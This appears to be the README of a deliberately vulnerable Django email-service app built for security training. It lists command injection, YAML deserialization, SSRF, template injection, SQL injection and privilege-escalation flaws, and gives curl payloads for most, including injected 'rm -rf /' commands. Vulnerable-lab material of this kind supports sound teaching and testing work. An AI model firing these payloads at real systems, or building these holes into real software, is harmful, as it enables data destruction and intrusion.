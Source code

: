 # EmailService - Intentionally Vulnerable Django Application

This is an intentionally vulnerable Django 1.8.3 email service application designed for security testing and educational purposes. The application contains several known vulnerabilities that can be exploited to demonstrate various security concepts.

## ⚠️ DISCLAIMER

This application is intentionally vulnerable and should ONLY be used in controlled environments for security testing and educational purposes. Do not deploy this in production or expose it to the internet.

## Features

- Send individual emails
- Send bulk emails
- Send template-based emails
- Email validation
- Email status tracking
- Email template management
- Email logging

## Vulnerabilities

### 1. Command Injection
- **Location**: `send_email` view
- **Vulnerability**: Unsafe use of `os.system()` with user input
- **Test Example**: 
```bash
curl -X POST http://localhost:8000/send -d '{"to":"user@example.com","subject":"test","message":"test","template":"test.txt; rm -rf /"}'
```

### 2. Insecure Deserialization
- **Location**: `send_template_email` view
- **Vulnerability**: Unsafe YAML deserialization
- **Test Example**:
```bash
curl -X POST http://localhost:8000/template -d '!!python/object/apply:os.system ["rm -rf /"]'
```

### 3. Server-Side Request Forgery (SSRF)
- **Location**: `validate_email` view
- **Vulnerability**: Unsafe URL construction and request
- **Test Example**:
```bash
curl -X POST http://localhost:8000/validate -d 'email=user@example.com&url=http://internal-service/'
```

### 4. Template Injection
- **Location**: `send_template_email` view
- **Vulnerability**: Unsafe template string formatting
- **Test Example**:
```bash
curl -X POST http://localhost:8000/template -d '{"to":"user@example.com","template":"test","data":{"name":"{{7*7}}","content":"test"}}'
```

### 5. Missing Authentication
- **Location**: All endpoints
- **Vulnerability**: No authentication checks
- **Test Example**: Any endpoint can be accessed without authentication

### 6. No Rate Limiting
- **Location**: `send_email` and `send_bulk_email` views
- **Vulnerability**: No rate limiting on email sending
- **Test Example**: Send multiple requests in quick succession

### 7. SQL Injection
- **Location**: Multiple views
- **Vulnerability**: Unsafe string formatting in SQL queries
- **Test Examples**:
```bash
# In send_email
curl -X POST http://localhost:8000/send -d '{"to":"user@example.com","subject":"test","message":"test","template":"test\' OR \'1\'=\'1"}'

# In get_email_status
curl http://localhost:8000/status?id=1 OR 1=1

# In search_templates
curl http://localhost:8000/templates/search?q=test\' OR \'1\'=\'1
```

### 8. Unsafe Database Operations
- **Location**: Multiple views
- **Vulnerability**: Direct object reference and unsafe save operations
- **Test Examples**:
```bash
# In manage_user_settings
curl -X POST http://localhost:8000/user/settings -d '{"user_id":1,"settings":{"email":"attacker@example.com","groups":["admin"]}}'

# In update_user_permissions
curl -X POST http://localhost:8000/user/permissions -d '{"user_id":1,"permissions":[{"action":"add","group":"admin"}]}'
```

## Configuration Vulnerabilities

1. **Debug Mode**: Enabled in production
2. **Secret Key**: Hardcoded in settings
3. **CORS**: Overly permissive configuration
4. **CSRF**: Disabled on all endpoints
5. **Django Version**: Using outdated version 1.8.3 with known vulnerabilities

## Setup

1. Install dependencies:
```bash
pip install -r requirements.txt
```

2. Set up environment variables:
```bash
export EMAIL_USER=your-email@gmail.com
export EMAIL_PASSWORD=your-app-password
```

3. Run migrations:
```bash
python manage.py migrate
```

4. Start the server:
```bash
python manage.py runserver
```

## API Endpoints

- `POST /api/email/send` - Send individual email
- `POST /api/email/bulk` - Send bulk emails
- `POST /api/email/template` - Send template-based email
- `GET /api/email/status` - Check email status
- `POST /api/email/validate` - Validate email address
- `POST /api/email/templates/create` - Create new email template
- `GET /api/email/templates/search` - Search email templates

## Security Best Practices (What NOT to do)

This application demonstrates several anti-patterns:

1. Using `os.system()` with user input
2. Using `yaml.load()` instead of `yaml.safe_load()`
3. Disabling CSRF protection
4. No input validation
5. No rate limiting
6. No authentication
7. Hardcoded secrets
8. Debug mode in production
9. Overly permissive CORS
10. Using outdated dependencies
11. Raw SQL queries with string formatting
12. Unsafe database operations
13. No error handling
14. No input sanitization

## Contributing

This is a demo application for security testing. Feel free to add more vulnerabilities or improve the existing ones for educational purposes. 